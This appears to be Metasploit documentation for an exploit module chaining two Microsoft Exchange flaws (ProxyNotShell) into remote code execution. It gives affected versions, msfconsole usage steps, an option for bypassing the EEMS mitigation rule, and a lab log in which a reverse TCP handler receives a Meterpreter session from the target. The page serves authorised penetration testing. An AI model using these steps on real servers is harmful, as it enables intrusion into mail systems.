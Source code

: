 ## Vulnerable Application

This module chains two vulnerabilities on Microsoft Exchange Server that, when combined, allow an authenticated attacker
to interact with the Exchange Powershell backend (CVE-2022-41040), where a deserialization flaw can be leveraged to
obtain code execution (CVE-2022-41082). This exploit only support Exchange Server 2019.

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.44
  * Exchange 2016 CU22 < 15.1.2375.37
  * Exchange 2016 CU23 < 15.1.2507.16
  * Exchange 2019 CU11 < 15.2.986.36
  * Exchange 2019 CU12 < 15.2.1118.20

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: November 8, 2022 (KB5019758)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxynotshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [USERNAME]`
5. Do: `set PASSWORD [PASSWORD]`
6. Do: `run`

## Advanced Options
### EemsBypass

Technique to bypass the EEMS rule.

**none** -- Make no attempt to bypass the EEMS rule. This can be used with the `check` method to determine if the EEMS 
M1 rule is applied.
**IBM037v1** -- Use IBM037 encoding combined with the `X-Up-Devcap-Post-Charset` header and `UP` User-Agent prefix. See
[ProxyNotRelay][2] for more information.

### MaxBackendRetries

The maximum number of times to retry for targeting the backend server with the SSRF. This is useful in environments
where a Data Availability Group (DAG) is in place and causes requests to be sent to a random backend server.

## Scenarios

### Version and OS

```
msf exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-november-8-2022-kb5019758-2b3b039b-68b9-4f35-9064-6b286f495b1d
[2]: https://rw.md/2022/11/09/ProxyNotRelay.html

